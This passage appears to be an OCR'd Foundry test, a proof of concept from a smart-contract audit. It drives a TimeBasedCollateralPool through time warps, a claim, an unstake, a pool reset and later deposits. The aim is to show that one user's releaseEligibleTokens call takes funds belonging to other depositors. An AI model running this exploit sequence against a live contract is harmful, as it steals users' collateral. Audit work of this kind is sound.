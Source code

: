 ```

    //warp 4 days 
    vm.warp(block.timestamp + 4 days);

    
    //claimer claims 99% of claimable (unit diluted). current epoc: 0
    IERC20[] memory tokenss &#x3D; new IERC20[](1);
    tokenss[0] &#x3D; IERC20(USDC);
    uint256[] memory amounts &#x3D; new uint256[](1);
    ITimeBasedCollateralPool.ClaimableCollateral[] memory claimableBals &#x3D; tbcp.getClaimableCollateral(tokenss);
    uint256 claimableNow &#x3D; claimableBals[0].amountClaimableUntilEndOfCurrentEpoch;
    amounts[0] &#x3D; claimableNow * 99 / 100;
    if (amounts[0]&gt;0) {
        vm.prank(claimant);
        tbcp.claim(tokenss,amounts);
    }

    //user 0 unstakes all units. current epoc: 0
    TimeBasedCollateralPool.PoolUnits memory units &#x3D; tbcp.getAccountPoolUnits(users[0],USDC);
    vm.prank(users[0]);
    tbcp.unstake(IERC20(USDC),units.total );

    //warp 5 days
    vm.warp(block.timestamp + 5 days);

    //pool is reset because of share value dilution. current epoc: 0
    vm.prank(resetter);
    tbcp.resetPool(tokenss);    

    //warp 5 days
    vm.warp(block.timestamp + 5 days);

    uint256 user0Balance &#x3D; tbcp.getAccountPoolBalance(users[0],USDC);
    console2.log(&quot;user 0 balance they should be able to withdraw after reset: %s USDC&quot;, user0Balance / (10 ** 6));

    //users 1 and 2 deposit and stake 20000 USDC each. (after reset so units are again 1:1 with usdc) current epoc: 0
    poolerDepositAndStake(USDC,20000 * (10 ** 6), basePriv+1,0);
    poolerDepositAndStake(USDC,20000 * (10 ** 6), basePriv+2,0);

    //warp 3 days
    vm.warp(block.timestamp + 3 days);

    //users 1, 2 unstake 10000 units each. current epoc: 0
     vm.prank(users[1]);
    tbcp.unstake(IERC20(USDC),10000 * (10 ** 6) );
    vm.prank(users[2]);
    tbcp.unstake(IERC20(USDC),10000 * (10 ** 6) );

    //warp to day 50. current epoc: 2 (epoc 1 is now vested)
    vm.warp(block.timestamp + 33 days);

    //user 0 releases eligable tokens. Because of the bug, they get a released amount based on the new unit price, stealing from  
    //users 1 and 2 who deposited and unstaked after the reset, and will now not be able to claim their unstake
    uint256 vaultBalanceBefore &#x3D; colVault.getAccountCollateralBalance(users[0],USDC).available;
    tbcp.releaseEligibleTokens(users[0],tokenss);
    uint256 vaultBalanceAfter &#x3D; colVault.getAccountCollateralBalance(users[0],USDC).available;
```